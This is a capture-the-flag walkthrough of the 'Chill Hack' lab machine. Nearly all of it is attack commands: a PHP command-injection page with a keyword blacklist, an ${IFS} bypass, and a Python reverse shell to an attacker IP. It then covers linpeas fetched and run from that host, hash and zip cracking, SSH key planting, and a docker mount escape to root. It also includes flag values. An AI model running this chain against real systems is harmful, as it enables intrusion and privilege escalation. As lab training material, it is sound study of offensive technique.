

# Chill Hack



## Task 1 Investigate!

#### User Flag

```bash
rustscan -a 10.10.128.132 -- -sV -sC
```


```bash
lftp -u Anonymous, 10.10.128.132
ftp > ls -la
ftp > cat note.txt
```


```bash
gobuster dir -u http://10.10.128.132/ \
             -w /usr/share/dirb/wordlists/common.txt \
             -t64
```








```markup
<html>
<body>

<form method="POST">
        <input id="comm" type="text" name="command" placeholder="Command">
        <button>Execute</button>
</form>
<?php
        if(isset($_POST['command']))
        {
                $cmd = $_POST['command'];
                $store = explode(" ",$cmd);
                $blacklist = array('nc', 'python', 'bash','php','perl','rm','cat','head','tail','python3','more','less','sh','ls');
                for($i=0; $i<count($store); $i++)
                {
                        for($j=0; $j<count($blacklist); $j++)
                        {
                                if($store[$i] == $blacklist[$j])
				{?>
					<h1 style="color:red;">Are you a hacker?</h1>
					<style>
						body
						{
							background-image: url('images/FailingMiserableEwe-size_restricted.gif');
							background-position: center center;
  							background-repeat: no-repeat;
  							background-attachment: fixed;
  							background-size: cover;					
	}	
					</style>
<?php					 return;
				}
                        }
                }
		?><h2 style="color:blue;"><?php echo shell_exec($cmd);?></h2>
			<style>
                             body
                             {
                                   background-image: url('images/blue_boy_typing_nothought.gif');  
				   background-position: center center;
  				   background-repeat: no-repeat;
  				   background-attachment: fixed;
  				   background-size: cover;
}
                          </style>
	<?php }
?>
</body>
</html
```



```bash
python3${IFS}-c 'import os,pty,socket;s=socket.socket();s.connect(("10.6.9.176",4444));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")'
```

```bash
nc -nvlp 4444
python3 -c 'import pty; pty.spawn("/bin/bash")'
```


```bash
ls -l /home
ls -la /home/apaar
cat /home/apaar/local.txt
```


```bash
sudo -l
cat /home/apaar/.helpline.sh
```


```bash
sudo -u apaar /home/apaar/.helpline.sh
# cat /home/apaar/local.txt
```



`{USER-FLAG: e8vpd3323cfvlp0qpxxx9qtr5iq37oww}`


#### Root Flag

```bash
sudo -u apaar /home/apaar/.helpline.sh
# /bin/bash
# python3 -c 'import pty; pty.spawn("/bin/bash")'
# cd
```


```bash
wget http://10.6.9.176/linpeas.sh -P /tmp
bash /tmp/linpeas.sh
```


```bash
cat /var/www/files/index.php
```


```bash
mysql -u root -p
sql > show databases;
sql > use webportal;
sql > show tables;
sql > SELECT * FROM users;
```


```bash
echo -n 'Aurick:7e53614ced3640d5de23f111806cc4fd\ncullapaar:686216240e5af30df0501e53c789a649' > hash.txt
john --format=Raw-MD5 --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```


```bash
ssh-keygen
cat .ssh/id_rsa.pub >> .ssh/authorized_keys
```


.png>)

```bash
vim id_rsa
chmod 400 id_rsa
ssh -i id_rsa -L 9001:localhost:9001 apaar@10.10.128.132
```


```bash
wget http://localhost:9001/images/hacker-with-laptop_23-2147985341.jpg
steghide extract -sf hacker-with-laptop_23-2147985341.jpg
```


```bash
zip2john backup.zip > hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
unzip backup.zip
```


```bash
cat source_code.php
echo -n 'IWQwbnRLbjB3bVlwQHNzdzByZA==' | base64 -d
```


```bash
su - anurodh
wget http://10.6.9.176/linpeas.sh
bash linpeas.sh
```


```bash
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
cat /root/proof.txt
```



`{ROOT-FLAG: w18gfpn9xehsgd3tovhk0hby4gdp89bg}`


## Xmind



## Reference




